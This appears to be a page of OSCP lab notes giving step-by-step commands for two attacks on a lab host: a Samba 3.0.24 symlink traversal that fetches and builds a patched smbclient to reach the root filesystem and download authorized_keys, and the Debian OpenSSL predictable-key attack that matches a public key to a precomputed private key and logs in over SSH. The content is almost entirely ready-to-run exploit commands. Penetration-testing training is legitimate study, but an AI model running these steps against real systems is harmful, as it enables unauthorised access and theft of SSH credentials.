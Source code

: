 # Symlink and Debian OpenSSL Predictable PRNG

### Samba Exploit - Symlink for authorized\_keys

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># With samba 3.0.24 exploit - symlink, attacker can access to the directory outside the Samba root directory. 
</strong>
https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually 

# Kali 
wget https://download.samba.org/pub/samba/stable/samba-3.4.5.tar.gz
tar xvfz samba-3.4.5.tar.gz
cd samba-3.4.5/source3/client/
mv client.c client.c.bak
wget https://raw.githubusercontent.com/roughiz/Symlink-Directory-Traversal-smb-manually/master/client.c

# Compile
cd samba-3.4.5/source3
./configure --prefix=/home/iptracej/oscp/lab/10.11.1.136
make &#x26;&#x26; make install

# Configure and access to the share
export  LD_LIBRARY_PATH="$LD_LIBRARY_PATH:/home/iptracej/oscp/lab/10.11.1.136/lib"

# access to the share and rootfs
cd bin
./smbclient \\\\10.11.1.136\\'Bob Share' -u bob -N --option='client min protocol=NT1'
symlink / rootfs

# Find authorized key

# Get the keys
mget authorized_keys 

</code></pre>

### Debian OpenSSL Predictable PRNG

{% code overflow="wrap" %}
```bash
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
cd common_keys
tar jxf debian_ssh_rsa_2048_x86.tar.bz2

# Find a ssh key pair with the previous public key in authorized_keys file
grep -lr <public key>
# debian-ssh/common_keys/dsa/1024/f1fb2162a02f0f7c40c210e6167f05ca-16858.pub

# Modify the authorized_keys file in victim machine

# connect to the victim machine via ssh 
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oPubkeyAcceptedKeyTypes=+ssh-dss -i debian-ssh/common_keys/dsa/1024/f1fb2162a02f0f7c40c210e6167f05ca-16858 bob@10.11.1.136
```
{% endcode %}



